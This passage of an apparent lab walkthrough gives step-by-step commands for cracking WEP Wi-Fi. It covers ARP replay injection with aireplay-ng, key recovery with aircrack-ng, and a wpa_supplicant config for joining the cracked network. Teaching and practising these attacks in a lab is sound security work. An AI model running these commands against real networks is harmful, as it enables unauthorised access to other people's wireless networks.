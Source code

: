 When you see **Association Succesfull :-)** press CTRL+C to stop the De-Auth process

In the same terminal generate traffic in order to find duplicate IV’s

```bash
⚠️ sudo aireplay-ng -3 -b ${bssid} -h ${client} wlan0mon
```

**And when you captured at least 10.000 ARP requests, return to terminal 1 and press CTRL+C to stop airodump.**

Also, stop monitoring on wlan0mon

```bash
⚠️ sudo airmon-ng stop wlan0mon
```

The real goal is still to collect enough IVs, and ARP injection is the method to make that happen.

Deauth is the catalyst — it increases the chance of getting the needed ARP packet.

---

## 🔓 Crack the WEP Key

Use aircrack to crack the WEP authentication request. 


```bash
⚠️ aircrack-ng dump-wep-01.cap
```

Expected result:

```
KEY FOUND! [ 12:34:56:78:90 ]
```
---

## 🔌 Connect Using wpa_supplicant

### wep.conf

# create a WEP connection file
```bash
⚠️ wep_key=11BB33CD55 #you need to remove the colons
⚠️ essid='wifi-old'
⚠️ cat << EOF > /tmp/wep.conf
 network={
           ssid="${essid}"
           key_mgmt=NONE
           wep_key0=${wep_key}
           wep_tx_keyidx=0
          }
EOF
```
